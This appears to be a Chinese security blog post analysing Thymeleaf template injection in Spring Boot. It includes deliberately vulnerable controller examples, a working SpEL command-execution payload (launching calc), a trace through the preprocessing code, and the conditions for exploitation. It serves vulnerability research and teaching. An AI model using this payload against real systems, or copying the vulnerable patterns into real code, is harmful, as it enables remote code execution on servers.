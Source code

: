 ```yaml
---
layout:     post
title:      Java Thymeleaf 模板注入分析
subtitle:   简单分析
date:       2020-9-8
author:     BY Diego
header-img: img/wenzhang/Thymeleaf.jpg
catalog: true
---
```


# Java Thymeleaf 模板注入分析



## 模板基本用法



在 springboot 常与 Thymeleaf  搭配使用

模板使用方法，return 为模板的名称

![wHnPeJ.png](https://s1.ax1x.com/2020/09/21/wHnPeJ.png)



![wHn9L4.png](https://s1.ax1x.com/2020/09/21/wHn9L4.png)



效果

![](https://s1.ax1x.com/2020/09/21/wHn6pV.png)



常见用法

https://waylau.gitbooks.io/thymeleaf-tutorial/content/docs/standard-expression-syntax.html

## 模板注入



当return 可控时，或者 返回值为空但url 可控时 就存在模板注入

```java
@Controller
@RequestMapping("/thymeleaf")
public class IndexController {

    //情况一
    @GetMapping("/test")
    public String test(String test){
        return test;
    }

    // 情况二
    @GetMapping("/test1/{test}")
    public void test1(){

    }
}
```



测试payload 

```
__${T(java.lang.Runtime).getRuntime().exec("calc")}__::.x
```





![wHKbee.png](https://s1.ax1x.com/2020/09/21/wHKbee.png)



![wHMuOU.png](https://s1.ax1x.com/2020/09/21/wHMuOU.png)



## 漏洞分析



情况一

在 `org.thymeleaf.spring5.view` 中的 `renderFragment`方法

`viewTemplateName` 的值即为可控输入，并return的值 ，如果值中包含`::` 则进入下面的分只（278行）,然后拼接成 `~{__${T(java.lang.Runtime).getRuntime().exec("calc")}__::.x}`

![wHMzN9.png](https://s1.ax1x.com/2020/09/21/wHMzN9.png)

跟进

![wH3R8s.png](https://s1.ax1x.com/2020/09/21/wH3R8s.png)



`input` 值被 `StandardExpressionPreprocessor.preprocess`处理 

![wH12X6.png](https://s1.ax1x.com/2020/09/21/wH12X6.png)



处理代码,有一个正则匹配`\_\_(.*?)\_\_` 。处理后变成 `${T(java.lang.Runtime).getRuntime().exec("calc")}`

```java
 static String preprocess(
            final IExpressionContext context,
            final String input) {
           //PREPROCESS_DELIMITER 的值为 _
        if (input.indexOf(PREPROCESS_DELIMITER) == -1) {
            // Fail quick
            return input;
        }

        final IStandardExpressionParser expressionParser = StandardExpressions.getExpressionParser(context.getConfiguration());
        if (!(expressionParser instanceof StandardExpressionParser)) {
            // Preprocess will be only available for the StandardExpressionParser, because the preprocessor
            // depends on this specific implementation of the parser.
            return input;
        }
			//PREPROCESS_EVAL_PATTERN  的值为 \_\_(.*?)\_\_
        final Matcher matcher = PREPROCESS_EVAL_PATTERN.matcher(input);
        
        if (matcher.find()) {

            final StringBuilder strBuilder = new StringBuilder(input.length() + 24);
            int curr = 0;
            
            do {
                
                final String previousText = 
                        checkPreprocessingMarkUnescaping(input.substring(curr,matcher.start(0)));
                final String expressionText = 
                        checkPreprocessingMarkUnescaping(matcher.group(1));
                        
                strBuilder.append(previousText);
                
                final IStandardExpression expression =
                        StandardExpressionParser.parseExpression(context, expressionText, false);
                if (expression == null) {
                    return null;
                }
                
                final Object result = expression.execute(context, StandardExpressionExecutionContext.RESTRICTED);
                
                strBuilder.append(result);
                
                curr = matcher.end(0);
                
            } while (matcher.find());
            
            final String remaining = checkPreprocessingMarkUnescaping(input.substring(curr));
            
            strBuilder.append(remaining);
            
            return strBuilder.toString().trim();
            
        }
        
        return checkPreprocessingMarkUnescaping(input);
        
    }
```



继续跟进到`execute`方法

![wHMXBF.png](https://s1.ax1x.com/2020/09/21/wHMXBF.png)



下图可以看到是使用的`SPEL` 引擎，因此只要满足`__(${SPEL})__::` 这中格式即可达到注入效果，不管前后有何值（除去redirect:等），绕过可用SPEL 的绕过方式

![wHMxAJ.png](https://s1.ax1x.com/2020/09/21/wHMxAJ.png)



情况二也类似

如果return 为空，那么url就会当作模板值



## 利用条件



不能有` @ResponseBody` 或者 `@RestController`

如下

```java
    @GetMapping("/test")
    @ResponseBody
    public String test(String test){
        return test;
    }
```



方法参数中不能有 `HttpServletResponse`

```java
    @GetMapping("/system/menuStyle/{style}")
    public void menuStyle(@PathVariable String style, HttpServletResponse response)
    {
        CookieUtils.setCookie(response, "nav-style", style);
    }
```



在返回值前面不能加 "redirect:"

```java
  @GetMapping("/test")
    public String test(String test){
        return "redirect:" + test ;
    }
```

